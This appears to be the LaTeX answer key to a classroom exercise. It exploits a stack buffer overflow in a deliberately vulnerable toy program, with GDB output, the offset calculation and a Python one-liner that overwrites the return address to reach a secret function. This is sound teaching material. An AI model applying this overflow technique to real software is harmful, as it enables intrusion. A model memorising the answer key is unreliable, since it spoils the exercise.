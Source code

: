 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{correction}
\textbf{1a)} After compilation and execution:
\begin{lstlisting}[style=GDBStyle]
$ gcc -fno-stack-protector -no-pie -z execstack -g stackx64.c -o stackx64
$ echo "AAAA" | ./stackx64
=== StackX64 - Vulnerable Program ===
[DEBUG] main() is at address:            0x401216
[DEBUG] secret_function() is at address:  0x4011d6
[DEBUG] vulnerable_function() is at:      0x4011f6
...
\end{lstlisting}

\textbf{1b)} Disassembly of \texttt{vulnerable\_function}:
\begin{lstlisting}[style=GDBStyle]
(gdb) disassemble vulnerable_function
   ...
   0x00000000004011fa <+4>:  push   rbp
   0x00000000004011fb <+5>:  mov    rbp,rsp
   0x00000000004011fe <+8>:  sub    rsp,0x40
   ...
\end{lstlisting}
The instruction \texttt{sub rsp, 0x40} reserves \textbf{64 bytes} (0x40 = 64) for local variables, which corresponds to the \texttt{char buffer[64]}.

\textbf{1c)} Stack diagram:
\begin{lstlisting}[style=GDBStyle]
Address          Content                 Description
-----------      -----------------       -------------------
0x7fffffffde58   0x0000000000401247      Return address (to main)
0x7fffffffde50   0x00007fffffffde70      Saved RBP
0x7fffffffde4c   0x0000000000000000      \
0x7fffffffde48   0x0000000000000000       |
...              ...                      | buffer[64]
0x7fffffffde14   0x0000000000000000       |
0x7fffffffde10   0x4141414141414141      /  <-- start of buffer
\end{lstlisting}

\textbf{1d)} Offset = buffer size + saved RBP = 64 + 8 = \textbf{72 bytes}.

Verification with GDB: we send 72 \texttt{A}'s + 8 \texttt{B}'s and verify that the return address contains \texttt{0x4242424242424242}:
\begin{lstlisting}[style=GDBStyle]
(gdb) run < <(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'B'*8)")
(gdb) x/gx $rbp+8
0x7fffffffde58: 0x4242424242424242
\end{lstlisting}

\textbf{1e)} The address of \texttt{secret\_function} is \texttt{0x4011d6}. In little-endian:
\begin{lstlisting}[style=GDBStyle]
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xd6\x11\x40\x00\x00\x00\x00\x00')" | ./stackx64
=== StackX64 - Vulnerable Program ===
...
=============================================
  SECRET FUNCTION REACHED!
  You successfully redirected execution!
=============================================
\end{lstlisting}


\end{correction}
\end{exercice}
\end{document}
